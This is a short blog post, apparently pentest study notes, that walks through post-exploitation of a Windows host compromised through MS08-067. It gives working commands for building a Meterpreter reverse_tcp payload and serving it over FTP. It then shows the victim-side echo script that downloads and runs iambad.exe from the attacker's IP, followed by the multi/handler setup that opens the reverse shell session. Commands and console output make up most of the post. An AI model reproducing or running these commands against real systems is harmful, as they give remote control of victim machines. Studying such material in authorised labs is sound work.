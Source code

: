 ```yaml
---
published: true
layout: post
title: Meterpreter up and running post exploitation
---
```




I've exploited MS08-067 without metasploit.  After exploitation I use metasploit's meterpreter.  

**Attacker**:  Start the ftp service on my attacking machine

    service pure-ftpd start

**Attacker**:  Create a payload to connect back to my attacking machine's listening meterpreter and save it to my ftp directory

    msfpayload windows/meterpreter/reverse_tcp lhost=192.168.30.36 lport=443 X > /ftphome/iambad.exe
    
**Victim**:  Exploit MS08-067 refer to 

http://dmittakarin8.github.io/Exploiting-MS08067-wo-Metasploit/

**Victim**:  FTP is installed on the server.  FTP is not interactive, so create a text file to pass to the ftp application.  I issue the following commands:

    echo open 192.168.30.36> ftp.txt
    echo your_username>> ftp.txt
    echo your_password>> ftp.txt
    echo binary>> ftp.txt
    echo get iambad.exe>> ftp.txt
    echo bye>> ftp.txt

**Victim**:  Execute the ftp command passing the ftp.txt as a parameter

    ftp -s:ftp.txt

**Attacker**:  Start msfconsole on attacking machine

    msfconsole
    
**Attacker**:  Start multi/handler, set LHOST, set LPORT, and start handler

    msf > use exploit/multi/handler
    msf exploit(handler) > set LHOST 192.168.30.36
    msf exploit(handler) > set LPORT 443
    msf exploit(handler) > run
    [*] Started reverse handler on 192.168.30.36:443 
    [*] Starting the payload handler...
    
**Victim**:  Execute payload

    iambad.exe

**Attacker**:  Meterpreter session obtained

    [*] Sending stage (770048 bytes) to 192.168.31.205
    [*] Meterpreter session 1 opened (192.168.30.36:443 -> 192.168.31.205:2707) at 2015-06-05 08:06:04 -0400
